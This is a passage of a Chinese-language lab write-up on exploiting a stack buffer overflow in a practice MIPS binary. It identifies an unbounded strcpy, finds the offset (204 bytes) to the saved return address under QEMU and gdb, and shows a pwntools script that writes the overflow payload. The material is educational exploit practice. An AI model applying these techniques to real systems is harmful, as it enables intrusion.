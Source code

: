```
exit(0);
`}`
```

可以看到这里面有一个system函数，并且这个里面有一个strcpy函数，没有对输入的内容限制长度，所以有栈溢出。并且因为main函数是非叶子函数，所以main返回的时候，只要把存放`$ra`寄存器内容的地方覆盖为dat_shell的地址就可以啦。

### <a class="reference-link" name="%E6%9F%A5%E7%9C%8B%E6%96%87%E4%BB%B6"></a>查看文件

通过`file`,`checksec`命令，查看文件的指令架构和保护情况

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01cb46f5e038a660a9.png)

### <a class="reference-link" name="IDA%E6%9F%A5%E7%9C%8B"></a>IDA查看

将程序放入到IDA中进行查看，我们根据strcpy可以找到漏洞位置

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0171c854635453d086.png)

strcpy的来源是程序运行的参数。

### <a class="reference-link" name="%E6%9C%AC%E5%9C%B0%E6%A8%A1%E6%8B%9F%E3%80%81%E8%B0%83%E8%AF%95"></a>本地模拟、调试

1.我们首先进行本地的模拟，我们先编写一个调试启动脚本vi local.sh

```
#! /bin/sh
PORT="1234"
#INPUT = `python -c "print open('content1',r).read()"`
cp $(which qemu-mipsel-static) ./qemu
./qemu -L ./ -g $PORT ./pwnable/Intro/stack_bof_01 "`cat content`"
rm ./qemu
```

这个里面用`cat`去获得，而不是python，是因为python有可能会截断

2.首先确定一个偏移，我们用`python patternLocOffset -c -l 600 -f content`生成一个输入脚本content，然后用local.sh起起来，用`gdb-multiarch`调试，最终得到寄存器`$ra`的值`0x41386741`,然后用`python patternLocOffset -s 0x41386741 -l 600`得到偏移是204。

[![](https://p0.ssl.qhimg.com/t01c856db5f9fecde62.png)](https://p0.ssl.qhimg.com/t01c856db5f9fecde62.png)

3.编写利用脚本，`vi content.py`为

```
from pwn import *
f=open("content","wb")
data = "a"*204
data+="bbbb"
f.write(data)
f.close()
```
